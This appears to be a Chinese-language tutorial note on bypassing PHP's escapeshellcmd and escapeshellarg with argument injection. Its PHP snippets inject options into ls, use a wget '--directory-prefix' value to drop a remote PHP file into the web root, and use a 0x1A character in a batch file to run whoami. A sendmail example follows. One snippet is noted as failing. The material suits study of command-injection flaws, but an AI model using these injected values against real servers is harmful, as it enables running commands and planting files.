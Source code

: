```php
<?php
	$arg = "sth";
	system(escapeshellcmd("ls --ignore=".escapeshellarg($arg).' /tmp'));
?>
```

特定选项利用：

在/tmp目录中列出文件并忽略sth；使用长列表格式

```php
$arg = "sth' -l ";
// ls --ignore='exploit'\'' -l ' /tmp
system(escapeshellcmd("ls --ignore=".escapeshellarg($arg).' /tmp'));//亲自尝试报错
//system("ls --ignore=^"sth^' -l ^" /tmp")
```

escapeshellcmd绕过是通过命令的特殊选项来绕过

> WGET，下载example.php

```php
$url = 'http://example.com/example.php';
system(escapeshellcmd('wget '.$url));
```

> 保存.php文件到指定目录

```php
$url = '--directory-prefix=/var/www/html http://example.com/example.php';
system(escapeshellcmd('wget '.$url));
```

###### .bat执行命令(windows)

打印somedir中的文件列表

```php
$dir = "somedir";
file_put_contents('out.bat', escapeshellcmd('dir '.$dir));
system('out.bat');
```

特定选项利用：

并且执行whoami命令

```php
$dir = "somedir x1a whoami//  0x1A在ASCII码中代表EOF，在过去，ASCII码EOF曾经在unix/linux中被作为文件结束符使用，微软继承了这个传统，也以EOF作为文件的结束符
file_put_contents('out.bat', escapeshellcmd('dir '.$dir));
system('out.bat');
```

###### SENDMAIL

发送mail.txt到from@sth.com

```php
$from = 'from@sth.com';
system("/usr/sbin/sendmail -t -i -f".escapeshellcmd($from ).' < mail.txt');
```
